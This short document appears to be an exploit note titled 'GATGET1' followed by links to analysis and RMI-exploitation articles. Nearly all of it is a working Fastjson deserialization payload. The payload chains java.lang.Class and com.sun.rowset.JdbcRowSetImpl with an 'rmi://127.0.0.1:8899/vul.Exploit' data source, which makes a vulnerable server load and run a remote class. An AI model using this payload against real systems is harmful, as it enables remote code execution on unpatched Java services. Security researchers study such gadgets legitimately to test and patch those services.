 ## GATGET1

```
{
 "name":{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
	},
 "xxxx":{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://127.0.0.1:8899/vul.Exploit",
    "autoCommit":true
    }
}
```

- [分析](https://www.anquanke.com/post/id/181874)



- [RMI 利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)

